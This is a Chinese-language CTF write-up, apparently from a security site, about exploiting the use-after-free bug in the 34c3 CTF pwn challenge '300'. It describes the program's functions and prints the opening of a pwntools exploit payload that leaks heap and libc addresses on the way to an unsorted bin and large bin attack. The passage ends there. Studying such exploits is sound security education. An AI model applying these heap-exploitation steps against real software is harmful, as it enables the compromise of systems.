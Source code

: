 > 原文链接: https://www.anquanke.com//post/id/101313 


# 一道pwn题带来的新思路 — 从unsorted bin attack 到 large bin attack


                                阅读量   
                                **135183**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">6</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t016049bad5cb4776d2.jpg)](https://p2.ssl.qhimg.com/t016049bad5cb4776d2.jpg)



## 前言

近来无事，于是又开始刷起了34c3 ctf的题，不得不感叹其题目出得好啊，虽然漏洞非常明显，但是你就是不知道怎么利用

刷到了题目名字为300的这道pwn题，想半天利用不了，于是去看了一下别人的wp

有两个wp

第一个wp是改了unsorted bin list，于是可以分配到一个堆的前面，利用house of orange 来get shell，这个比较简单，具体怎么做直接google 搜wp就可以看到

第二个wp就是这篇文章主要分析的东西了

这里先贴一下[wp的地址](https://gist.github.com/sroettger/591b355b50f7f28f99b27ca6194681ad)

这篇wp其实只是一个payload，虽然附带少量的注释，但是第一次看到真的完全不知道他是怎么利用的



## 正式分析

这个pwn有四个功能, alloc,read,write,free，alloc只能malloc固定大小为0x300的堆，read的话只能固定读0x300个字节，write的话跟puts差不多，打印到为止的内容，free的话free掉之后没用将指针给置0，所以可以实现UAF。

这个是pwn的程序的地址<br>[pwn](https://github.com/DhavalKapil/ctf-writeups/tree/master/34c3ctf-2017/300)

说完程序的主要功能，我们来分析下payload吧

这里我省略一下payload的部分代码，下面是payload的主要代码

```
alloc(0)
alloc(1)
alloc(2)
alloc(3)

free(2)
free(0)

heap = u64(pr(0).ljust(8, 'x00')) - 0x620
libc.address = u64(pr(2).ljust(8, 'x00')) - 0x3c1b58
print('heap: 0x`{`:x`}`'.format(heap))
print('libc: 0x`{`:x`}`'.format(libc.address))

check_action = libc.address + 0x3c1150
main_arena = libc.address + 0x3c1b00
top = main_arena+0x58
```